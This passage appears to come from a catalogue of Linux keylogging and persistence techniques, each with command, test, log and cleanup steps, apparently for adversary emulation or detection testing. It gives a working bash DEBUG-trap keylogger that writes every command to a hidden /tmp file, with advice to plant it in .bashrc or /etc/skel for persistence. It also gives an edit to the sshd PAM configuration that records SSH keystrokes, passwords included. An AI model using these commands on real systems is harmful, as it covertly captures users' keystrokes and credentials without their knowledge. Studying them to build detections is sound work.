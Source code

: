 To gain persistence the command could be added to the users .bashrc or 
.bash_aliases or the systems default .bashrc in /etc/skel/ 

Command:

    trap 'echo "$(date +"%d/%m/%y %H:%M:%S.%s") $USER $BASH_COMMAND" >> /tmp/.keyboard.log' DEBUG

Test:

    echo "Hello World!"

    if [ "$(grep 'Hello World!' /tmp/.keyboard.log)" ]; \
    then echo "FOUND!"; \
    else echo NOT FOUND!; \
    fi 

Log: tail -f /tmp/.keyboard.log

    10/07/21 11:06:18.1625911578 ubuntu echo "Hello World!"

Cleanup:

    rm /tmp/.keyboard.log

<br>

### 3. SSHD PAM keylogger

Linux PAM (Pluggable Authentication Modules) is used in sshd authentication. The linux audit tool auditd can use the pam_tty_audit module to enable auditing of TTY input and capture all keystrokes in an ssh session and place them in the /var/log/audit/audit.log file after the session closes.

Command:

    cp -v /etc/pam.d/sshd /tmp/

    echo "session required pam_tty_audit.so disable=* enable=* open_only log_passwd" >> /etc/pam.d/sshd

    systemctl restart sshd
    systemctl restart auditd

Test:

    ssh ubuntu@localhost 
    echo "ubuntu@localhost"
    sudo su
    echo "root@localhost"
    exit
    exit

Log: aureport --tty

    57. 07/12/21 16:37:52 681 1000 ? 26 sudo "ubuntu"
    58. 07/12/21 16:38:08 691 1000 ? 26 bash "echo \"root@localhost\"",<ret>,"exit",<ret>
    59. 07/12/21 16:38:08 696 1000 ? 26 sudo <nl>
    60. 07/12/21 16:38:09 697 1000 ? 26 bash "echo \"ubuntu@localhost\"",<ret>,"sudo su",<ret>,"exit",<ret>

Log: ausearch -i 
